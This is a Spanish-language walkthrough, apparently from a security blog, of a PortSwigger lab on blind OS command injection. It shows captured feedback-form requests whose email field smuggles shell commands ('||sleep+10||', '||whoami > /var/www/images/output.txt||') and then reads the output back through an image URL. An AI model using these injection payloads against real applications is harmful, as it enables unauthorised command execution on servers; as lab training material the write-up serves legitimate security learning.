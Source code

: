 ```yaml
---
title: "OS Command Injection Lab 3"
date: 2024-12-01 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - OS Command Injection
tags:
  - OS Command Injection
  - Blind OS command injection with output redirection
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Blind OS command injection with output redirection

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind OS Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. La `salida` del `comando` no se `devuelve` en la respuesta. Sin embargo, podemos usar la `redirección` de `salida` para capturarla. Existe una `carpeta` escribible en: `/var/www/images/`. La aplicación `sirve` las `imágenes` del catálogo de productos desde esta `ubicación`. Podemos `redireccionar` la `salida` del `comando` inyectado a un `archivo` en esta `carpeta` y luego usar la `URL` de `carga` de imágenes para `recuperar` el contenido del `archivo`. Para resolver el `laboratorio`, debemos ejecutar el comando `whoami` y `recuperar` su `salida`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/OS-Command-Injection-Lab-3/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/OS-Command-Injection-Lab-3/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/OS-Command-Injection-Lab-3/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/OS-Command-Injection-Lab-3/image_4.png)

Si usamos este payload `|` en el campo email, en vez de `{}` en el `output` vemos un `mensaje` de `Could not save`

```
csrf=ZhcxbGtPNDRaQXlONDnnGJafoRTWN6uI&name=test&email=|test%40gmail.com&subject=test&message=test
```

Usando este `payload` se `ejecuta` el comando `sleep`

```
csrf=ZhcxbGtPNDRaQXlONDnnGJafoRTWN6uI&name=test&email=||sleep+10||&subject=test&message=test
```

Con este `payload` estamos `escribiendo` el `output` de nuestro `comando` en `/var/www/images`

```
csrf=ZhcxbGtPNDRaQXlONDnnGJafoRTWN6uI&name=test&email=||whoami+>+/var/www/images/output.txt||&subject=test&message=test
```

Si pulsamos `Ctrl + U` nos damos cuenta de que las `imágenes` están siendo `cargadas` a través de un `parámetro filename`

![](/assets/img/OS-Command-Injection-Lab-3/image_5.png)

Si accedemos a `https://0aa800dd041cfe318091ada900180005.web-security-academy.net/image?filename=output.txt` veremos el `output` de nuestro `comando`

![](/assets/img/OS-Command-Injection-Lab-3/image_6.png)
